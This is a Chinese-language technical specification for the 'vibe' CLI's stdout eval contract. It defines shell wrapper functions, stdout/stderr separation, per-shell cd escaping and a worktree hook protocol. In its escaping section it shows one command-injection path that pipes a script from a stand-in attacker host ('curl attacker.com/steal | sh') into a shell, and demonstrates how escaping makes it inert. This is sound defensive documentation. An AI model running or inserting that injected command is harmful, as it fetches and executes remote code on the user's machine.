

> 🇺🇸 [English](./eval-contract.md) | 🇯🇵 [日本語版](./eval-contract.ja.md)

# The stdout Eval Contract

> **状态：Normative（规范性）。** 与本目录中其他历史性规格文档不同，本文档描述的是**当前的** Rust 实现，是 shell eval 协议的 single source of truth。代码与规格必须一同变更。

**MUST** / **MUST NOT** 这两个关键词按 RFC 2119 的含义使用，它们标记的是实现以及今后任何变更都必须保持的不变式。

## 1. 概述

子进程无法改变父 shell 的当前工作目录。`vibe start` 作为用户 shell 的子进程运行，因此无法代替 shell 执行 `cd`。取而代之的是，shell 的包装函数在父 shell 的上下文中对二进制文件的 stdout 求值（eval）。

这使得 **stdout 成为可执行的 shell 代码**，即 *eval 通道*。所有面向人类阅读的内容都输出到 stderr，即 *human 通道*。

由此可见：混入 stdout 的任何一个字节都会被用户的 shell 执行。下面的契约正是为了从结构上杜绝这种可能性而存在的。

## 2. 术语

| 术语              | 含义                                                                                             |
| ----------------- | ------------------------------------------------------------------------------------------------ |
| **eval 通道**     | stdout。由包装函数原样接收，并作为 shell 代码执行。                                                |
| **human 通道**    | stderr。进度、日志、警告、错误、`--help`、`--version`。绝不会被 eval。                             |
| **包装函数**      | 由 `vibe shell-setup` 输出的 shell 函数，负责运行二进制文件并对其 stdout 求值。                     |
| **子二进制文件**  | 真正的 `vibe` 可执行文件。为绕过包装函数，以 `command vibe` / `^vibe` / `vibe.exe` 的形式调用。      |
| **`Outcome`**     | 命令处理函数返回的值（`rust/crates/vibe-core/src/commands/mod.rs`），描述二进制文件应向 stdout 写入什么（或不写入任何内容）。 |
| **dialect（方言）** | 由内部全局标志 `--eval-dialect <posix\|nu\|powershell>` 选择的输出语法变体。Posix 是默认值（标志缺省时始终使用），也是保持线格式兼容的传统语法。 |

## 3. 各 shell 的包装函数

由 `rust/crates/vibe-core/src/commands/shell_setup.rs` 的 `shell_function` 输出，每行一条，各自以一个 `\n` 结尾。

| Shell        | 包装函数文本（逐字节精确）                                                        |
| ------------ | -------------------------------------------------------------------------------- |
| bash, zsh    | `vibe() { eval "$(command vibe "$@")"; }`                                         |
| fish         | `function vibe; eval (command vibe $argv); end`                                   |
| nushell      | `def --env --wrapped vibe [...args] { let out = (^vibe --eval-dialect nu ...$args); for line in ($out \| lines) { if ($line \| str starts-with "__VIBE_CD__") { cd ($line \| str replace "__VIBE_CD__" "") } else { print $line } } }` |
| powershell   | `function vibe { $out = & vibe.exe --eval-dialect powershell @args; if ($out) { Invoke-Expression ($out -join "`n") } }` |

- 包装函数文本与补全脚本的输出跨版本必须保持逐字节一致（**MUST**）。已被加载进用户 rc 文件中的包装函数在升级时不会重新生成，它们依赖于精确的字节序列。nushell 与 powershell 这两行只在引入 `--eval-dialect` 的那个版本中变更过一次，该例外的记录见 §9。
- **bash、zsh、fish 的包装函数未发生变化**，它们不传递 `--eval-dialect`，依赖 Posix 默认值。
- nushell 与 powershell 的包装函数会传递内部标志 `--eval-dialect`。与 `--claude-code-worktree-hook` 一样，它是内部标志，不得出现在生成的补全中（**MUST**，见 `rust/crates/vibe/src/cli.rs` 的 `INTERNAL_FLAGS_NOT_EXPOSED`）。
- nushell 包装函数要求 **nu ≥ 0.83**（从该版本起 `str replace` 默认按字面量匹配）。它必须使用 `for` 而非 `each`（**MUST**）：在 nushell 中，`each` 闭包会丢弃环境变更，因此 `each` 内部的 `cd` 无法传递到调用方。
- nushell 包装函数必须声明为 `--wrapped`（**MUST**）。否则 nu 会在*解析*阶段依据签名解析标志，任何带标志的 `vibe` 调用（`vibe start -b`、`vibe clean --force` 等）都会在函数体执行之前失败。`--wrapped` 会将未知标志原样送入 `...args` 这个 rest 参数，正是它让标志转发得以成立。
- `--with-completion` 会追加一段补全脚本（仅限 fish 与 zsh）以及末尾的 `\n`。其他 shell 则为 `VibeError::Configuration`（退出码 1）。
- 无法识别的 `--shell` / `$SHELL` 取值同样是 `VibeError::Configuration`（退出码 1），而不是 `Argument` 错误。

## 4. 规范规则：stdout

### 4.1 唯一的写入点

- `rust/crates/vibe/src/eval_output.rs::write_outcome` 是生产代码中**唯一**向 stdout 写入的函数。
- 它仅在 `rust/crates/vibe/src/main.rs` 中 `dispatch` 的 `Ok` 分支被调用**恰好一次**。
- 生产代码中任何其他的 `println!`、`print!`、`std::io::stdout()` 或 `dbg!` 都属于缺陷。`vibe-core` 中的命令处理函数不得进行输出（**MUST NOT**），它们返回一个 `Outcome`，由二进制文件决定如何处理。
- 该规则并非仅停留在文档层面，而是**通过机制强制执行**：clippy 的 `print_stdout` 与 `dbg_macro` 在整个 workspace 中被 deny，`rust/clippy.toml` 将 `std::io::stdout` 列入 disallowed-methods。workspace 中唯一的 `#[allow]` 位于 `rust/crates/vibe/src/eval_output.rs`。在其他任何位置新增 stdout 写入都会导致 `just check-rust` / CI 失败。
- 若 `write_outcome` 失败（参见换行符防护），错误会报告到 stderr 并以非零状态退出进程，stdout 上不会写入任何内容。

### 4.2 按 `Outcome` 变体划分的 stdout 语法

| 构造函数                   | 输出到 stdout 的内容                                  | 使用者                                              |
| -------------------------- | ----------------------------------------------------- | --------------------------------------------------- |
| `Outcome::none()`          | 不输出任何内容（零字节）                                | `config`、`verify`、`trust`、`untrust`、`upgrade`、dry run、hook 模式的 `clean` |
| `Outcome::cd(path)`        | 恰好一行，采用所选 dialect 的语法（§4.3）               | `start`、`scratch`、`jump`、`rename`、`clean`、`home` |
| `Outcome::stdout(text)`    | 原样输出 `text`，可以是多行，末尾换行符由文本自身携带    | `shell-setup`（包装函数 + 补全）                     |
| `Outcome::stdout_path(p)`  | 仅输出裸路径 `p`，**不带**末尾换行符                    | `start --claude-code-worktree-hook`                  |

补充规则：

- `cd_path` 与 `stdout` 在**结构上互斥**：每个构造函数至多设置其中之一。`write_outcome` 中带有 `debug_assert!`，从而在未来某个构造函数同时设置两者时能够被捕获，而不是悄悄丢弃 `stdout`。
- `write_outcome` 必须拒绝包含 `\n` 或 `\r` 的 `cd_path`，返回错误而非输出（**MUST**）。换行符会终止这唯一的 `cd` 行，使攻击者可控的路径得以向 eval 注入第二条命令。
- `Outcome::stdout_path` 在**构造时**施加同样的 `\n` / `\r` 防护并返回 `Err`：worktree 路径可能派生自用户的 `path_script`，就此用途而言属于不可信输入。
- `Outcome::stdout` 仅用于**可信的、手工构建的载荷**（包装函数与补全脚本，它们理应包含换行符）。不得向其传入不可信文本（**MUST NOT**）。

### 4.3 Dialect：`cd` 的语法

内部全局标志 `--eval-dialect <posix|nu|powershell>` 选择 `Outcome::cd` 所使用的语法。可接受的别名为 `nu` / `nushell`、`powershell` / `pwsh`。

| Dialect                           | `Outcome::cd(path)` 的 stdout                          |
| --------------------------------- | ------------------------------------------------------- |
| Posix（默认，无标志）              | `cd '<经 '\'' 转义的路径>'` + `\n`                        |
| Nushell（`nu`、`nushell`）        | `__VIBE_CD__<原始路径>` + `\n`                           |
| Powershell（`powershell`、`pwsh`）| `Set-Location -LiteralPath '<经 '' 转义的路径>'` + `\n`    |

规范规则：

- 当 `--eval-dialect` 缺省时，输出必须与 Posix 语法逐字节一致（**MUST**）。默认路径就是传统的线格式，不允许发生偏移。
- dialect **只**影响 `cd` 结果。`Outcome::none()`、`Outcome::stdout(text)`、`Outcome::stdout_path(p)` 是 **dialect 无关**的：`shell-setup` 的输出、hook 路径以及空输出的情形在任何 dialect 下都是相同的字节序列。
- 针对 `cd_path` 的 `\n` / `\r` 防护（§4.2）在 dialect 分派**之前**生效，因此任何可能破坏单行不变式的路径都不会到达任何一个 dialect。
- nushell dialect 将路径作为**数据而非代码**输出：`__VIBE_CD__` 哨兵前缀框定了一条原始且未加引号的路径，包装函数剥去前缀后把剩余部分作为字符串值交给 `cd`。该行中没有任何部分会被解析为 nushell 源代码。

## 5. 规范规则：stderr

- 所有面向人类的输出都必须写入 stderr（**MUST**）：`log` / `verbose_log` / `success_log` / `warn_log` / `error_log`（`rust/crates/vibe-core/src/output.rs`）、进度渲染（`ProgressDrawTarget::stderr()`）、交互式提示、clap 的 `--help` 与解析错误，以及自定义的 `--version` 输出块。
- clap 的错误在 `main.rs` 中被显式写入 stderr（否则 clap 会把 `--help` 输出到 stdout，而包装函数会执行它）。
- 生命周期 hook 的输出（`rust/crates/vibe-core/src/hooks.rs`）：没有进度跟踪器时，hook 的 **stdout 会被转发到 stderr**；有跟踪器时则被抑制，以保持界面整洁。失败的 hook 始终会显示其 stderr。在任何配置下，hook 的输出都不得抵达进程的 stdout（**MUST NOT**）。
- `vibe-core` 完全不得向 stdout 写入（**MUST NOT**），它根本没有 stdout 的 seam。

## 6. 转义

`rust/crates/vibe-core/src/shell.rs`：

- `shell_escape(value)` 将每个 `'` 替换为 `'\''`（闭合引号 → 转义后的字面引号 → 重新开启引号）。`$`、反引号和双引号在单引号内是惰性的，因此原样保留。
- `escape_shell_path` 是面向路径的别名。
- `format_cd_command(path)` 生成 `cd '<escaped>'`。
- 这些函数的输出必须保持逐字节稳定（**MUST**）。该转义正是对 shell 输出注入的缓解措施，而且已安装的包装函数依赖于精确的语法。

示例：`/tmp/x'; curl attacker.com/steal | sh; echo '` 会变成 `cd '/tmp/x'\''; curl attacker.com/steal | sh; echo '\'''`，即单个惰性的 `cd` 参数。

每个 dialect 都按其所属 shell 自身的规则进行引用：

| Dialect    | 转义方式                                                                                    |
| ---------- | -------------------------------------------------------------------------------------------- |
| Posix      | `'` → `'\''`（闭合引号 → 转义后的字面引号 → 重新开启引号）；整条路径以单引号包裹。 |
| Powershell | `'` → `''`（PowerShell 通过将单引号加倍来转义单引号字符串内部的单引号）。`Set-Location` 使用 `-LiteralPath` 而非 `-Path`，因为 `-Path` 会将 `[`、`]`、`*`、`?` 解释为通配符，而它们都是路径中合法的字符。 |
| Nushell    | **不做转义。** 路径在 `__VIBE_CD__` 哨兵之后原样输出。nushell 的单引号字符串完全不支持转义序列，因此根本不存在可转义的目标；哨兵框定使路径成为纯数据，从而消除了转义的必要。 |

### 6.1 已知限制与历史记录

在 dialect 机制引入之前，nushell 与 powershell 的包装函数是坏的。之所以在此明确说明，是因为本文档的早期版本给出了相反的表述。

- **nushell —— 旧包装函数从未真正工作过。** `... | each { |line| nu -c $line }` 会为每一行启动一个**子** `nu` 进程；子进程中的 `cd` 无法改变调用方的目录，因此无论是否加引号，任何路径都不会生效。此外，POSIX 的 `'\''` 惯用法在 nushell 中是**解析错误**：nushell 的单引号字符串完全不支持转义序列，而且 nushell 没有 `eval`。它还完全无法转发标志：旧签名不是 `--wrapped`，因此 nu 在解析阶段就解析标志，任何带标志的调用（`vibe start -b`、`vibe clean --force` 等）都会在函数体运行之前被拒绝。以上已在 nushell 0.113.1 上通过实测确认。此前"不含单引号的普通路径在全部五种 shell 上均能正确工作"这一说法，**对 nushell 而言是错误的**：在 nushell 上没有任何东西能工作——加引号的路径不行，普通路径不行，标志也不行。
- **powershell —— 旧包装函数因两个彼此独立的原因而损坏。** `Invoke-Expression (& vibe.exe $args)` 会按 PowerShell 的引用规则解释经 POSIX 转义的行，因此任何含单引号的路径都会被错误处理；另外，只要二进制文件没有产生 stdout 输出（所有 `Outcome::none()` 的命令），`Invoke-Expression` 就会以空参数被调用并抛出 *"Cannot bind argument to parameter 'Command'"*。

这两个问题都已由 dialect 机制解决：nushell 不再把该行当作代码求值，powershell 获得了属于自己的引用方言，而且新的 powershell 包装函数会先用 `if ($out)` 做防护再执行调用。

尚存的限制：

- **包装函数不会被自动重新生成。** 把旧的 nushell 或 powershell 代码片段粘贴进 rc 文件的用户，在重新执行 `vibe shell-setup`（或从文档重新粘贴片段）之前，仍会保持旧的、有缺陷的行为。这是有意为之的设计：vibe 绝不会改写用户的 shell 配置。
- Posix 系包装函数（bash、zsh、fish）的字节序列未发生变化，因此不会影响任何原本可用的配置。

## 7. 相邻协议：Claude Code worktree hook（stdin JSON）

`start` 与 `clean` 接受 `--claude-code-worktree-hook`，这是面向 Claude Code 而非人类的内部标志。它通过 `rust/crates/vibe/src/cli.rs` 中的 `INTERNAL_FLAGS_NOT_EXPOSED` 从生成的补全中排除。

### 7.1 请求（stdin）

由 `rust/crates/vibe-core/src/stdin.rs` 读取，这是不可信输入的边界。

| 规则                                                                                              |
| ------------------------------------------------------------------------------------------------- |
| 载荷必须是单个 JSON **对象**（**MUST**）；数组、标量和 `null` 都会被拒绝。                          |
| 载荷必须 ≤ 1 MB（**MUST**，`MAX_STDIN_SIZE`）；读取在 `max + 1` 字节处停止，因此超大载荷绝不会被完整缓冲。 |
| 空白、纯空格或无法解析的输入不产生任何值（此时命令会在 stderr 上报告用法错误）。                     |

字段：

- `start`：`{"name": "<branch>"}` —— 必须是非空字符串（**MUST**），不得包含 NUL 字节（**MUST NOT**），也不得以 `-` 开头（**MUST NOT**，以免 `--force` / `-b` 被塞进 `git worktree add` 的标志位）。以 CLI 参数给出的分支名优先于 stdin。
- `clean`：`{"worktree_path": "<绝对路径>"}` —— 必须是通过 `validate_path` 校验的非空绝对路径（**MUST**，不含 NUL、`\n`/`\r`、`$(`、反引号）。`clean` 还会额外拒绝不在实际 git worktree 集合中的路径。

### 7.2 响应（stdout）

| 命令                                | stdout                                                                |
| ----------------------------------- | ---------------------------------------------------------------------- |
| `start --claude-code-worktree-hook` | 经由 `Outcome::stdout_path` 输出的裸 worktree 路径 —— **不带**末尾换行符，且**不是** `cd` 行 |
| `clean --claude-code-worktree-hook` | 不输出任何内容（`Outcome::none()`）；导航由 Claude Code 控制             |
| 两者，dry run / 路径被拒绝时         | 不输出任何内容                                                          |

两者的诊断信息都以 `[cc-worktree-hook]` 为前缀的行输出到 stderr。

## 8. 测试职责

| 层级                                                     | 证明什么                                                                                             |
| -------------------------------------------------------- | ------------------------------------------------------------------------------------------------------ |
| 单元测试（`vibe-core` / `vibe` 中的 `#[cfg(test)]`）       | 处理函数的逻辑，以及处理函数返回的 `Outcome`。由于不存在进程边界，它们**无法**证明流的分离。 |
| `rust/crates/vibe/tests/eval_contract.rs`                 | 以 stdout 与 stderr 分处**独立管道**的方式驱动**已构建的**二进制文件，并断言每条流上的精确字节。这是唯一能够证明流分离的层级。 |
| `rust/crates/vibe/tests/wrapper_round_trip.rs`            | 启动**真实的 shell**（bash、zsh、fish、nu、pwsh），加载二进制文件输出的包装函数，并断言 shell 自身的 cwd 确实发生了变化——包括含单引号的路径。这是唯一能够证明包装函数**确实工作**（而不仅仅是字节符合预期）的层级。若解释器不存在，对应 shell 会被跳过；设置 `VIBE_REQUIRE_SHELLS` 则会将"缺失"转为失败，CI 中已设置该变量，因此不会有 shell 被静默跳过。 |
| PTY E2E（`packages/e2e`）                                  | 交互式行为（提示、TTY 判定）。PTY 在设计上会**合并**两条流，因此无法断言流的分离。 |

规则：任何影响 stdout / stderr 分离的变更都必须在 `rust/crates/vibe/tests/eval_contract.rs` 中新增用例（**MUST**）。任何对包装函数或对某个 dialect 的 `cd` 语法的变更，还必须额外由 `wrapper_round_trip.rs` 覆盖（**MUST**）。

### 8.1 可追溯性：MUST → 强制手段

| 规范规则                                          | 机械化强制手段                                                              |
| ------------------------------------------------ | --------------------------------------------------------------------------- |
| 唯一的 stdout 写入点（§4.1）                      | clippy `print_stdout` / `dbg_macro` 在整个 workspace 中 deny；`rust/clippy.toml` 中禁用 `std::io::stdout`；唯一的 `#[allow]` 位于 `eval_output.rs` |
| 各 dialect 逐字节精确的 stdout 语法（§4.2、§4.3、§6） | `rust/crates/vibe/tests/eval_contract.rs` 中的逐字节用例                  |
| 包装函数确实改变 shell 的 cwd（§3）                | `rust/crates/vibe/tests/wrapper_round_trip.rs`（真实 shell，CI 中设置 `VIBE_REQUIRE_SHELLS`） |
| 内部标志不暴露于补全（§3、§7）                     | `rust/crates/vibe/src/cli.rs` 中的 `INTERNAL_FLAGS_NOT_EXPOSED` 一致性测试   |

## 9. 变更管理

以下均属于**破坏性变更**，因为已安装的 shell 包装函数与补全脚本依赖于精确的字节序列：

- `shell_setup.rs` 中包装函数文本的任何字节级变更；
- 生成的补全输出的任何字节级变更；
- `shell_escape` / `format_cd_command` 输出的任何变更；
- `cd '<escaped>'` 语法的任何变更（新增行、丢失换行符、改用其他命令）。

此类变更必须按破坏性发布对待，并同步更新 `eval_contract.rs` 中的用例（**MUST**）。

### 9.1 变更记录：`--eval-dialect`（2.x 小版本）

引入 `--eval-dialect` 的那个版本改变了 **nushell 与 powershell** 包装函数的字节序列。它作为 **2.x 小版本（`feat`）**而非大版本发布，是对上述规则的一次刻意例外。

作出例外的理由：该规则的存在是为了保护*可用的*用户配置。而被替换掉的这两个包装函数都不可用——nushell 版因三个彼此独立的原因在结构上就无法工作（在子 `nu` 进程中执行 `cd`、无法解析的 POSIX 转义，以及非 `--wrapped` 的签名在解析阶段就拒绝一切带标志的调用），powershell 版则会在所有 stdout 为空的命令上抛出异常，并错误处理含引号的路径（§6.1）。替换一个从未起过作用的包装函数不会造成任何退化。用户真正依赖的 bash、zsh、fish 包装函数的字节序列没有变化。

兼容性矩阵：

| 组合                            | 行为                                                                                          |
| ------------------------------ | ---------------------------------------------------------------------------------------------- |
| 旧的已粘贴包装函数 + 新二进制文件 | 不会传递 `--eval-dialect` → Posix dialect → **与今天完全相同的字节序列**。没有退化；旧包装函数保持原状（bash/zsh/fish 依旧可用，nu/pwsh 依旧损坏）。 |
| 新包装函数 + 旧二进制文件        | clap 拒绝这个未知标志：**退出码 2**，stdout 为空，不会 eval 任何内容。失败方式是安全的——用户会在 stderr 上看到 clap 的错误，绝不会执行残缺的一行。 |
| 新包装函数 + 新二进制文件        | `cd` 在全部五种 shell 上均可工作，含单引号的路径亦然。                                            |

*今后*对任何已知可用的包装函数所做的变更，仍必须按破坏性变更对待（**MUST**）。

## 10. 参考

实现的 ground truth：

- `rust/crates/vibe/src/eval_output.rs` —— 唯一的 stdout 写入点与换行符防护
- `rust/crates/vibe/src/main.rs` —— 唯一的调用点；将 clap 的输出导向 stderr
- `rust/crates/vibe-core/src/commands/mod.rs` —— `Outcome` 及其构造函数
- `rust/crates/vibe-core/src/shell.rs` —— `shell_escape`、`format_cd_command`
- `rust/crates/vibe-core/src/commands/shell_setup.rs` —— 各 shell 的包装函数文本
- `rust/crates/vibe-core/src/output.rs`、`rust/crates/vibe-core/src/hooks.rs` —— stderr 一侧
- `rust/crates/vibe-core/src/stdin.rs`、`rust/crates/vibe/src/cli.rs` —— Claude Code hook 协议、`--eval-dialect` 以及内部标志排除列表
- `rust/clippy.toml` —— 将 `std::io::stdout` 挡在生产代码之外的 disallowed-methods 列表
- `rust/crates/vibe/tests/eval_contract.rs` —— 本规格的可执行形式
- `rust/crates/vibe/tests/wrapper_round_trip.rs` —— 针对全部包装函数与 dialect 的真实 shell 往返测试

相关文档：

- `docs/architecture.md` 的 "Shell Wrapper Architecture" —— 设计历史（描述的是已被删除的 TypeScript 实现）
- `docs/SECURITY_CHECKLIST.md` §10 "Shell Output Injection" 与 §13 "eval / Dynamic Code Execution" —— 本契约的威胁模型视角
